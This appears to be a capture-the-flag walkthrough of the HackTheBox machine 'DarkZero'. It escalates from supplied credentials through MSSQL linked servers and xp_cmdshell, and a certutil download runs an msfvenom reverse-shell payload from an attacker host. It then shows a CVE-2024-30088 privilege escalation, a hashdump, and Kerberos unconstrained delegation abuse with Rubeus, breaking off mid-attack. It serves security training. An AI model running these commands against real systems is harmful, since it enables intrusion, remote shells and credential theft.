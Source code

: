 
![](Cover-darkzero.png)

## INFO_

```
Machine Information
As is common in real life pentests, you will start the DarkZero box with credentials for the following account john.w / RFulUtONCOL!
```

```
PORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
1433/tcp open  ms-sql-s
2179/tcp open  vmrdp
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
5985/tcp open  wsman
```


```
bloodhound-python --domain darkzero.htb --domain-controller dc01.darkzero.htb --nameserver 10.129.3.50 --username john.w --password 'RFulUtONCOL!' --collectionmethod all --dns-tcp --zip
```




## USER_ACCESS
### [MSSQL Linked Servers](https://www.adversify.co.uk/blog/escalating-privileges-via-linked-database-servers) 

```
SQL (darkzero\john.w  guest@master)> select srvname from master..sysservers

srvname             
-----------------   
DC01

DC02.darkzero.ext
```



```
EXEC ('EXEC xp_cmdshell "whoami"') AT [DC02.darkzero.ext];


--> The following commands will re enable xp_cmdshell through the two database links we have identified:

EXEC ('sp_configure ''show advanced options'', 1; RECONFIGURE;') AT [DC02.darkzero.ext];

EXEC ('sp_configure ''xp_cmdshell'', 1; RECONFIGURE;') AT [DC02.darkzero.ext];

EXEC ('xp_cmdshell "whoami"') AT [DC02.darkzero.ext];

output                 
--------------------   
darkzero-ext\svc_sql   

NULL 


--> Upload venom to the victim DC02:

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.40 LPORT=1337 -f exe -o venom.exe 

EXEC ('xp_cmdshell "certutil.exe -urlcache -f http://10.10.14.40/venom.exe C:\users\svc_sql\Desktop\venom.exe"') AT [DC02.darkzero.ext];

--> Run it :

EXEC ('xp_cmdshell "C:\users\svc_sql\Desktop\venom.exe"') AT [DC02.darkzero.ext];\
```

Now, We at DC02 we need to escalate our privileges !!

```
--> Bg the meterpreter session and run exploit suggestor :

use post/multi/recon/local_exploit_suggester

exploit/windows/local/cve_2024_30085_cloud_files:
exploit/windows/local/cve_2024_30088_authz_basep:
exploit/windows/local/cve_2024_35250_ks_driver:


--> Now Lets start the attack :

use windows/local/cve_2024_30088_authz_basep  [Set the options!]

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>hostname
hostname
DC02


meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:6963aad8ba1150192f3ca6341355eb49:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:43e27ea2be22babce4fbcff3bc409a9d:::
svc_sql:1103:aad3b435b51404eeaad3b435b51404ee:816ccb849956b531db139346751db65f:::
DC02$:1000:aad3b435b51404eeaad3b435b51404ee:663a13eb19800202721db4225eadc38e:::
darkzero$:1105:aad3b435b51404eeaad3b435b51404ee:4276fdf209008f4988fa8c33d65a2f94:::
```


## PRIV_ESC - [Delegation](https://www.guidepointsecurity.com/blog/delegating-like-a-boss-abusing-kerberos-delegation-in-active-directory/)

As this is AD box, there might be some cross-domain relations ; Lets explore those.

```
PS > Get-DomainTrust

SourceName      : darkzero.ext
TargetName      : darkzero.htb
TrustType       : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes : FOREST_TRANSITIVE
TrustDirection  : Bidirectional
```


DC02 is configured with non-constrained delegation [ DARKZERO.HTB <--> DARKZERO.EXT ] and with cross-domain trust between them.

```
PS > Get-DomainComputer -Unconstrained -Properties useraccountcontrol,dnshostname | fl

dnshostname        : DC02.darkzero.ext
useraccountcontrol : SERVER_TRUST_ACCOUNT, TRUSTED_FOR_DELEGATION
```



We use Rubeus to listen to the LSASS memory with system privileges, and access the SMB share of DC02 from MSSQL Service 

```Dc02
Rubeus.exe monitor /interval:5
```


```attacker-
impacket-mssqlclient darkzero.htb/john.w:'RFulUtONCOL!'@10.129.252.83 -windows-auth
xp_dirtree \\DC02.darkzero.ext\ggg
```

Then get the TGT of DC01$@Darkzero.htb ; 
